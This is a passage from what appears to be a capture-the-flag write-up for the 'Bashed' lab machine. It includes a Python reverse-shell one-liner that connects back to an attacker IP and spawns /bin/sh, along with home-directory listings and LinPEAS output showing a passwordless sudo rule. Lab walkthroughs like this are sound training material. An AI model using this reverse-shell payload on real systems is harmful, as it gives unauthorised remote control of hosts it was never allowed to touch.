 I opened an interactie webshell instead of this phpbash using the following payload;

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

Then, I can find that the users' home directory are accessible. 

```bash
www-data@bashed:/$ cd home
cd home
www-data@bashed:/home$ ls
ls
arrexel  scriptmanager
www-data@bashed:/home$ ls -al
ls -al
total 16
drwxr-xr-x  4 root          root          4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
drwxr-xr-x  4 arrexel       arrexel       4096 Jun  2  2022 arrexel
drwxr-xr-x  3 scriptmanager scriptmanager 4096 Dec  4  2017 scriptmanager
www-data@bashed:/home$ cd arrexel
cd arrexel
www-data@bashed:/home/arrexel$ ls
ls
user.txt
```

Here I can find `user.txt` flag.



# Shell as `scriptmanager`

### Enumeration

Let's run `LinPEAS` to enumerate the system. (Need to upload the linpeas binary first)

```bash
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                                                         
Matching Defaults entries for www-data on bashed:                           
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL


╔══════════╣ Users with console
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash                      
root:x:0:0:root:/root:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```
